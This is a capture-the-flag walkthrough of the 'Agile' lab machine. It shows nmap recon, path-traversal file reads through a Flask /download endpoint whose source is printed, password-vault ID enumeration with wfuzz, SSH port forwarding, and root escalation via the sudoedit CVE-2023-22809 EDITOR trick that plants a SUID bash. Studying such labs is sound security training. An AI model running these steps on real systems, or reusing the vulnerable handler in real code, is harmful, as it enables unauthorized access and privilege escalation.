








# Agile
* **POINTS**: 30
* **USER RATING**: Medium
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.7

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.203
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-15 06:12 EDT
Nmap scan report for 10.10.11.203
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.28 seconds
```

## 2. TCP-80
First of all we can add `superpass.htb` to `/etc/hosts` and then visit the site. 


Now we can visit the *login* page.

<p align="center">
  
</p>

Trying to log in with standard credentials, you can get to an error page.



On this page, in addition to understanding which query it performs, you can understand the path in which the app is executed.

<p align="center">
  
</p>

After that, we create a user and create a password as follows:

<p align="center">
  
</p>

## 3. LFI
So let's try to export the present password and intercept the request with burp.

<p align="center">
  
</p>

What you notice is the possible presence of LFI, from the moment in which, through the end point `/download`, you use a parameter to obtain a file.

### 3.1 PoC
#

Let's try to get */etc/passwd* to understand if it's really vulnerable.

<p align="center">
  
</p>

From the resulting file, in addition to confirming the presence of LFI, the presence of various users can be noted: `corum`, `edwards` and `dev-admin`.  

To better understand how the app works, let's get the source code (information obtained from the presence of the error found previously).

```python
import flask
import subprocess
from flask_login import login_required, current_user
from superpass.infrastructure.view_modifiers import response
import superpass.services.password_service as password_service
from superpass.services.utility_service import get_random
from superpass.data.password import Password


blueprint = flask.Blueprint('vault', __name__, template_folder='templates')


@blueprint.route('/vault')
@response(template_file='vault/vault.html')
@login_required
def vault():
    passwords = password_service.get_passwords_for_user(current_user.id)
    print(f'{passwords=}')
    return {'passwords': passwords}


@blueprint.get('/vault/add_row')
@response(template_file='vault/partials/password_row_editable.html')
@login_required
def add_row():
    p = Password()
    p.password = get_random(20)
    return {"p": p}


@blueprint.get('/vault/edit_row/<id>')
@response(template_file='vault/partials/password_row_editable.html')
@login_required
def get_edit_row(id):
    password = password_service.get_password_by_id(id, current_user.id)

    return {"p": password}


@blueprint.get('/vault/row/<id>')
@response(template_file='vault/partials/password_row.html')
@login_required
def get_row(id):
    password = password_service.get_password_by_id(id, current_user.id)

    return {"p": password}


@blueprint.post('/vault/add_row')
@login_required
def add_row_post():
    r = flask.request
    site = r.form.get('url', '').strip()
    username = r.form.get('username', '').strip()
    password = r.form.get('password', '').strip()

    if not (site or username or password):
        return ''

    p = password_service.add_password(site, username, password, current_user.id)
    return flask.render_template('vault/partials/password_row.html', p=p)


@blueprint.post('/vault/update/<id>')
@response(template_file='vault/partials/password_row.html')
@login_required
def update(id):
    r = flask.request
    site = r.form.get('url', '').strip()
    username = r.form.get('username', '').strip()
    password = r.form.get('password', '').strip()

    if not (site or username or password):
        flask.abort(500)

    p = password_service.update_password(id, site, username, password, current_user.id)

    return {"p": p}


@blueprint.delete('/vault/delete/<id>')
@login_required
def delete(id):
    password_service.delete_password(id, current_user.id)
    return ''


@blueprint.get('/vault/export')
@login_required
def export():
    if current_user.has_passwords:        
        fn = password_service.generate_csv(current_user)
        return flask.redirect(f'/download?fn={fn}', 302)
    return "No passwords for user"
    

@blueprint.get('/download')
@login_required
def download():
    r = flask.request
    fn = r.args.get('fn')
    with open(f'/tmp/{fn}', 'rb') as f:
        data = f.read()
    resp = flask.make_response(data)
    resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'
    resp.mimetype = 'text/csv'
    return resp
```

Analyzing the code you can see the presence of various endpoints, among which the possibility of carrying out various operations (add, edit, delete, etc.) starting from an id stands out.

Then, through the use of `wfuzz`, passing a list of numbers, I tried to figure out what the ids were.

```bash
└─$ wfuzz -c --hc=404 --hh=265 -t 200 -w numbers_list http://superpass.htb/vault/row/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://superpass.htb/vault/row/FUZZ
Total requests: 50

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000001:   302        5 L      22 W       263 Ch      "1"                                                                                                                                                                         
000000003:   302        5 L      22 W       263 Ch      "3"                                                                                                                                                                         
000000007:   302        5 L      22 W       263 Ch      "7"                                                                                                                                                                         
000000008:   302        5 L      22 W       263 Ch      "8"                                                                                                                                                                         
000000004:   302        5 L      22 W       263 Ch      "4"                                                                                                                                                                         
000000006:   302        5 L      22 W       263 Ch      "6"                                                                                                                                                                         
000000009:   302        5 L      22 W       263 Ch      "9"                                                                                                                                                                         
000000005:   302        5 L      22 W       263 Ch      "5"                                                                                                                                                                         
000000002:   302        5 L      22 W       263 Ch      "2"                                                                                                                                                                         

Total time: 0
Processed Requests: 50
Filtered Requests: 41
Requests/sec.: 0
```

Among all, the one that stands out is the id 8 which contains the password for the user *corum*.

<p align="center">
  
</p>

We can use this credentials to login via SSH and get the user flag.

```bash
└─$ ssh corum@superpass.htb 
The authenticity of host 'superpass.htb (10.10.11.203)' can't be established.
ED25519 key fingerprint is SHA256:kxY+4fRgoCr8yE48B5Lb02EqxyyUN9uk6i/ZIH4H1pc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'superpass.htb' (ED25519) to the list of known hosts.
corum@superpass.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

Last login: Wed Mar  8 15:25:35 2023 from 10.10.14.47
corum@agile:~$ ls
user.txt
corum@agile:~$ cat user.txt
a7fefd0ce2189c43a2d67150c1f4b91b
```

## 4. User to ROOT
We load and run *linpeas* on the machine and it is interesting to note that there are several active ports.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      -                                                                                                                                                            
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:60569         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:41829         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:60569               :::*                    LISTEN      -
```

Then we look for those that interface with these ports among the active processes.

```bash
corum@agile:/dev/shm$ ps aux | grep "127.0.0.1:5555"
runner      1091  0.0  0.6  31000 24360 ?        Ss   09:45   0:01 /app/venv/bin/python3 /app/venv/bin/gunicorn --bind 127.0.0.1:5555 wsgi-dev:app
runner      1094  0.0  1.5  78700 61428 ?        S    09:45   0:03 /app/venv/bin/python3 /app/venv/bin/gunicorn --bind 127.0.0.1:5555 wsgi-dev:app
corum      53270  0.0  0.0   4036  2040 pts/0    S+   11:50   0:00 grep --color=auto 127.0.0.1:5555
```

In particular, among all the active ports, the one that arouses the most attention is 5555 since the testbuild of the application is performed on it. So let's try to build a port forward via SSH, to try to get more information, using the following command:

    ssh corum@superpass.htb -L 1234:127.0.0.1:5555

Then we carry out the same check on the ids to look for further credentials and we immediately find those of *edwards*

<p align="center">
  
</p>

Now we can use this credentials to be *edwards*.

```bash
corum@agile:~$ su edwards
Password: 
edwards@agile:/home/corum$ 
```

By executing the command *sudo -l*, we obtain the information necessary to be *root*.

```bash
edwards@agile:/home$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

Searching the internet for an exploit for *sudoedit* I found an [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/) dealing with `CVE-2023-22809` and explaining how to exploit this command for privilege escalation.

At this point we can export the environment variable to the */app/venv/bin/activate* file and then edit one of the two files as *dev_admin* user.

```bash
edwards@agile:/home/corum$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:/home/corum$ sudo -u dev_admin sudoedit /app/config_test.json
```

We simply add the SUID to */bin/bash* at the start of the program and close the editor.

<p align="center">
  
</p>

Then we execute the *bash -p* command and get the flag.

```bash
edwards@agile:/home/corum$ bash -p
edwards@agile:/home/corum# whoami
root
edwards@agile:/home/corum# cat /root/root.txt 
811f301ea659730f37c074227ca9366a
```